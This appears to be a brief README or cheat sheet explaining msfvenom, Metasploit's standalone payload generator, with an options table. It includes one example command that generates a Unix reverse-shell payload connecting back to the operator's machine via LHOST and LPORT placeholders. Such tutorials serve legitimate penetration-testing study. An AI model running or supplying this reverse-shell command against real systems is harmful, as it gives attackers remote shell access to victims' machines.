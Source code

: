 # MsfVenom - A Metasploit standalone payload generator and Encoder

**MsfVenom** is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Msfvenom has replaced both msfpayload and msfencode.

## Example use
```bash
msfvenom -p cmd/unix/reverse_shell LHOST=w.z.y.z LPORT=port_number R"
## Options/Switches
|Option|Meaning|
|---|---|
|`-p` or `--payload`|Payload to use, Specify a `-` or `stdin` to use custom payloads.
|lhost|Local host IP address (this is **our** machine's IP address)|
|lport|The port to listen on (this is **our** machine's PORT)|
|R|Export the payload in raw format|

